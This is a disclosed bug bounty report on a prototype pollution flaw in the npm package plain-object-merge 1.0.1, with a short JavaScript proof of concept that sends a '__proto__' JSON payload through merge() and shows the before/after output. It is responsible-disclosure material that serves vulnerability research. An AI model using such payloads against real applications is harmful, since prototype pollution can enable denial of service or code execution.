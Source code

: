 # [plain-object-merge] Prototype pollution

## Report Details
- **Report ID**: 871156
- **URL**: https://hackerone.com/reports/871156
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-05-11T22:23:34.390Z
- **Disclosed**: 2021-03-13T19:30:53.402Z

## Reporter
- **Username**: d3lla
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `prototype pollution` vulnerability in `plain-object-merge` module.
It allows an attacker to inject properties on Object.prototype.

# Module

**module name:** `plain-object-merge`
**version:** `1.0.1`
**npm page:** `https://www.npmjs.com/package/plain-object-merge`

## Module Description

Extremely fast function optimized for deep merging json-serializable plain objects.

## Module Stats

[20] weekly downloads

# Vulnerability

## Vulnerability Description

The `merge` function can be used to add/modify properties of the Object prototype. These properties will be present on all objects.

## Steps To Reproduce:
- install `plain-object-merge` module:
    - `npm i plain-object-merge`

Create an object with `__proto__` property and pass it to the `merge` function:
```javascript

const merge = require('plain-object-merge');
const payload =  JSON.parse('{"__proto__":{"polluted":"yes"}}');
const obj = {};
console.log("Before : " + obj.polluted);
merge([{}, payload]);
console.log("After : " + obj.polluted);
```
Output:
```console

Before : undefined
After : yes
```
{F824411}

## Supporting Material/References:

- OPERATING SYSTEM VERSION: Ubuntu 18.04.4 LTS
- NODEJS VERSION: v14.1.0
- NPM VERSION: 6.14.5

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 


Thank you for your time.

best regards,

d3lla

## Impact

The impact depends on the application. In some cases it is possible to achieve Denial of service (DoS), Remote Code Execution, Property Injection.

## Attachments
- plain-object-merge_poc.mov
